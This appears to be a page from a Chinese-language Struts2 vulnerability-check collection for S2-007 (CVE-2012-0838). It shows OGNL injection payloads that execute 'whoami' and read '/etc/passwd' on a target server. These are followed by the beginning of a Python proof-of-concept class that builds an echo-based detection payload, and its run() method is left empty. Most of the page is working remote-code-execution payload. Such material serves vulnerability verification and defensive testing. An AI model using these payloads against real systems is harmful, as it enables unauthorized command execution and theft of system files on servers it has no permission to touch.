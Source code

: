```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
```

#### 读取文件

```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat /etc/passwd').getInputStream())) + '
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests

class S2_007_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-007漏洞,又名CVE-2012-0838漏洞',
            'description': 'Struts2 S2-007漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.2.3',
            'date': '2011-09-03',
            'type': 'RCE'
        }
        self.url = url
        self.capta = self.get_capta()
        self.check_payload = {
            'name': "1",
            'email': "7777777@qq.com",
            'age': '''\' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(''' + '\'' +'echo ' + self.capta + '\'' + ''').getInputStream())) + \''''
        }
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

```